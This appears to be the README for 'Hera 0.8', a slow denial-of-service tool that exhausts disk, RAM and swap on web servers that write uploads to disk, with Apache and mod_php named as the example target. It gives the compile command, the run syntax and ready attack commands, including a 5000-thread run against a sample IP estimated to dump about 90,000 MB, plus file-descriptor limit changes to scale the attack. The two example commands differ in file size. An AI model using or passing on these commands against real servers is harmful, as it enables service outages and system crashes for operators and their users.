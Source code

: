 # Hera 0.8
## Description
Hera is a slow denial of service tool that exploits the fact that some web servers will dump files to disk by default as they are being uploaded (sometimes even if the hosted application has not implemented file upload). This makes it possible to use up disk space and sometimes RAM/Swap. Different servers will respond differently to this but in many cases it leads to instability and/or crash of the system.
## Usage
###### Compiling
```
g++ -std=c++11 -pthread main.cpp -o hera -lz
```
###### Running
```
./hera host port threads connections path filesize files endfile gzip timeout 
./hera 192.168.0.209 80 5000 3 /test.php 0.03 20 0 0 20
```
###### Increasing file descriptor limit
vim /etc/security/limits.conf
```
* soft nofile 65000
* hard nofile 65000
root soft nofile 65000
root hard nofile 65000
```

Restart or relog.
###### Test case 1
Apache 2.4.x running with mod_php enabled and a mode that is not limited by a low amount of threads (in which case this would become a normal slowloris like attack).
The tool must be run towards a php file for mod_php to be called and the files to be dumped to disk.
The following usage example would start an attack against IP 192.168.0.209 on port 80 and the script test.php.
5000 threads would be opened with 3 sockets in each, resulting in 15000x20=300000 files (0.3 MB each, that's 90000 MB) being dumped to disk.
Disk space, RAM and Swap will run out, it depends on the setup which one fails first of course.

```
./hera 192.168.0.209 80 5000 3 /test.php 0.3 20 0 0 120
```
